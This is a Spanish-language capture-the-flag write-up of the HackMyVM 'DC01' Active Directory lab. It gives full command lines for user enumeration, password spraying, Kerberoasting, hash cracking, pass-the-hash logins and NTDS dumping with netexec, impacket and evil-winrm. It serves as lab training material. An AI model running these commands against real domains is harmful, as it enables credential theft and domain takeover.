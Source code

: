# Máquina DC01

Enlace a la máquina -> [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=DC01)

![imagen](https://github.com/user-attachments/assets/21166e62-1d1a-48a0-96fa-431e1ff98859)

- **Nombre de la Máquina:** DC01  
- **Sistema Operativo:** Windows - Active Directory  
- **Dificultad:** Fácil  
- **Plataforma:** HackMyVM  
- **Dirección IP:** 192.168.1.145  
- **Vulnerabilidades Explotadas:**
  - Contraseñas débiles (usuarios reutilizando el nombre de usuario como contraseña).
  - Ataque Kerberoast para obtener hashes de cuentas de servicio.
  - Hash dumping de cuentas de servicio con permisos elevados.
- **Escalada de Privilegios:**
  - Reutilización de contraseñas en recursos compartidos SMB.
  - Uso de hashes NTLM para acceso mediante Pass-the-Hash y privilegios de administrador local.

## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general utilizando Nmap para identificar los puertos abiertos y las versiones en la IP del objetivo:

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn -sCV --open 192.168.1.145 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/65ec265d-b175-4885-907b-8a1367516371)

Lo primero que he hecho ha sido identificar el dominio y añadirlo en el fichero /etc/hosts

![imagen](https://github.com/user-attachments/assets/b51e0c8e-b3ff-4c6c-bf32-15f9f58fee46)

Enumero el puerto smb con el usuario guest pero solo tengo permisos de lectura en un fichero que no es para nada interesante.

![imagen](https://github.com/user-attachments/assets/2adfc6a2-8c5b-46ea-960c-c6f8ea58691d)

Utilizo el siguiente comando para enumerar posibles usuarios (dejo dos comandos con los cuales podemos enumerar usuarios):

```bash
netexec smb 192.168.1.145 -u "guest" -p "" --rid-brute
impacket-lookupsid guest@soupedecode.local
```
![imagen](htts://github.com/user-attachments/assets/277bd353-0a89-4121-9b94-1449ec2f0dd0)

Guardaremos en una lista solamente los nombres de los usuarios, para ello haremos uso de las expresiones regulares.

```bash
impacket-lookupsid guest@192.168.1.145 -no-pass | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```

![imagen](https://github.com/user-attachments/assets/6698fd49-934f-403e-9280-01b366cfce7d)

## Explotación

Esto nos da una lista de 1069 usuarios en el dominio. Un intento de realizar un ataque ASREPRoasting fracasará porque todas estas cuentas tienen Kerberos pre-autenticación requerida atributo. Podemos intentar un ataque con contraseña. Los usuarios a veces utilizan sus nombres de inicio de sesión como su contraseña, así que intentemos rociar el nombre de usuario de cada cuenta como su contraseña.

```bash
netexec smb 192.168.1.145 -u users.txt -p users.txt --no-brute --continue-on-success
```

![imagen](https://github.com/user-attachments/assets/73755852-99fd-4e35-a49b-fdcd8b3c5d61)

Probamos el usuario ybob317 y podemos ver los permisos de lectura que tiene en el puerto smb.

```bash
netexec smb 192.168.1.145 -u ybob317 -p ybob317 --shares
```

![imagen](https://github.com/user-attachments/assets/7298880e-f4e0-4565-85df-a598548e4ea8)

Igualmente no encontramos nada interesante en los recursos compartidos smb, vamos a probar un kerberoast. Esto fallará si nuestro host de ataque no tiene el mismo tiempo que el controlador de dominio por lo que antes de usar los scripts de Impacket a las cuentas de servicio de kerberoast, primero necesitamos cambiar nuestro tiempo al del controlador de dominio.

```bash
timedatectl set-ntp off
sudo rdate -n 192.168.1.145
---
sudo ntpdate 192.168.1.145
```

Para obtener los hashes, ejecutaremos el siguiente comando.

```bash
impacket-GetUserSPNs -dc-ip 192.168.1.145 soupedecode.local/ybob317:ybob317 -request -outputfile hashes.kerberoast
```

![imagen](https://github.com/user-attachments/assets/2385b7ac-0f31-45c4-b4ed-cac31d63c709)

![imagen](https://github.com/user-attachments/assets/555e660a-0d4f-4a22-b9fc-fca78a5eba8d)

Después de obtener el TGS de cuentas de servicio en el objetivo, podemos utilizar John para descifrarlas.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
```

![imagen](https://github.com/user-attachments/assets/5cf6a686-33f5-4731-9077-0daf357c5122)


Como podemos observar, solo nos saca 1 contraseña, y no vemos a que cuenta pertenece. Para identificar a quien pertenece esa contraseña, utilizaremos netexec.

```bash
netexec smb 192.168.1.145 -u kerb_users.txt -p 'Password123!! --shares'
```

![imagen](https://github.com/user-attachments/assets/4269c941-6e27-4cce-8d52-15976682020f)

Vemos también que tenemos permisos de lectura para el recurso compartido llamado backup, vamos a mirarlo con smbclient.

```bash
smbclient //192.168.1.145/backup -U 'file_svc%Password123!!'
```

![imagen](https://github.com/user-attachments/assets/dc496890-75b2-4246-96f6-00be0ec14a3c)

Pues si hacemos un cat al archivo, vemos que tenemos los hashes de diferentes usuarios:

![imagen](https://github.com/user-attachments/assets/1c65f85d-1dcb-4904-b115-4ffe29a94d4a)

Podemos ver que el recurso compartido de respaldo en el DC01 contenía un archivo de texto con hashes de contraseña NTLM de cuentas de servicio en el destino. Podemos intentar distribuir estos hashes a los nombres de usuario que enumeramos anteriormente para verificar si se ha reutilizado alguna contraseña. 

```bash
cat backup_extract.txt | cut -d '$' -f1 > names.txt
cat backup_extract.txt | cut -d ':' -f4 > hashes.txt
```

```bash
netexec winrm 192.168.1.145 -u names.txt -H hashes.txt --no-brute --continue-on-success
```

![imagen](https://github.com/user-attachments/assets/3b0afe85-a05f-4978-aa36-98e4dd371ac2)

Obtuvimos un éxito exitoso en el FileServer$ usuario. El (Pwn3d!) indica que esta cuenta puede conectarse localmente al DC01.

Nos conectamos por evil-winrm y tenemos acceso.

```bash
evil-winrm -i 192.168.1.145 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559
```

![imagen](https://github.com/user-attachments/assets/fde02b66-37e9-4d79-b486-1abfdd9b6fab)

La enumeración muestra que esta cuenta es miembro del grupo Administradores. Podemos usar esto para leer la flag de root en el objetivo como se muestra a continuación. 

![imagen](https://github.com/user-attachments/assets/f4e682dc-288c-4efa-ab6a-ded5876eb931)

Podremos también dumpear el hash del usuario administrador de la siguiente manera.

```bash
impacket-secretsdump soupedecode.local/FileServer\$@192.168.1.145 -hashes 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559'
---
netexec smb 14.14.1.28 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 –ntds
```

![imagen](https://github.com/user-attachments/assets/d67cd5cd-a291-482b-9254-1122f3e15d8d)

# Conclusión
En esta máquina, utilizamos una combinación de ataques basados en contraseñas débiles y técnicas de Kerberoast para acceder a cuentas de servicio y, finalmente, escalar privilegios a un nivel de administrador. Este CTF resalta la importancia de implementar buenas prácticas de gestión de contraseñas para proteger entornos sensibles como Active Directory. 
